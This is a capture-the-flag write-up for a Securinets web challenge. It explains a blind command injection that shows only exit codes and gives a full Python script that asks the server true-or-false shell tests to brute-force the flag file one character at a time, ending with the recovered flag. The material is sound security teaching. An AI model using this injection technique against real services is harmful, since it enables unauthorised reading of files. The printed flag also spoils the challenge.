 # 0s & 1s Solver

## understanding the output 

we understand from the description that this webpage execute system commands which may raise a command injection vulnerability 

we try executing some linux commands like ``ls`` , ``whoami``, ... and we notice that the output is either 0 or 1 which leads me to understand that it may be the exit code (either false or true) 

after understanding the code we can try ``cat flag.txt`` , we get an output of ``1`` which means flag.txt exists 

this is called a blind injection , and we can go arround it by using command that return either true or false , to check the first letter we can use the command ``[ "$(head -c 1 flag*)" = "S" ]`` \
this returns ``1`` which we know is true because we know that our flag starts with ``Securinets{`` 

we go ahead and write a small python script to find the flag :

```
import requests
import re

def execute_command(command):
    url = 'http://terminaltreachery2.web.securinets.tn/exec' 
    data = {'command': command}
    
    try:
        response = requests.post(url, data=data)
        response.raise_for_status() 
        match = re.search(r'<pre>(.*?)</pre>', response.text)
        if match:
            value = match.group(1) 
            return int(value)
        else:
            print("No value found within <pre> tags.")
    except requests.exceptions.RequestException as e:
        print("An error occurred:", e)

def find_length():
    x = 50
    while True:
        print(x,sep='|')
        command = '[ "$(wc -c < flag.txt |awk \'{$1=$1};1\')"  -gt '+str(x)+' ]' 
        if execute_command('[ "$(wc -c < flag.txt |awk \'{$1=$1};1\')"  = '+str(x)+' ]') :
            break
        elif execute_command(command) == 0 :
            x = x - 1
        else :
            x = x +1 
    return x

def find_flag(x):
    begin = "Securinets{"
    flag = begin
    x = x - len(begin) 
    letters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!_{}"
    
    for i in range(len(begin), len(begin) + x):  
        found_letter = False  
        for letter in letters:
            command = f'[ "$(head -c {i+1} flag.txt)" = "{flag + letter}" ]'  
            if execute_command(command) == 1:
                print("Found letter:", letter)
                flag += letter 
                found_letter = True
                break  

        if not found_letter:
            print("No letter found for position", i) 
        print(flag)
        print(f"{x - (i - len(begin) + 1)} letters remaining")  

    return flag



if __name__ == '__main__':
    x=find_length()
    print("the length is :",x)
    flag = find_flag(x)
    print("your flag is : ",flag)
```
after running this script we get that the flag is ``Securinets{0s_and_1s_RUL3}``

written by : **Chuuya**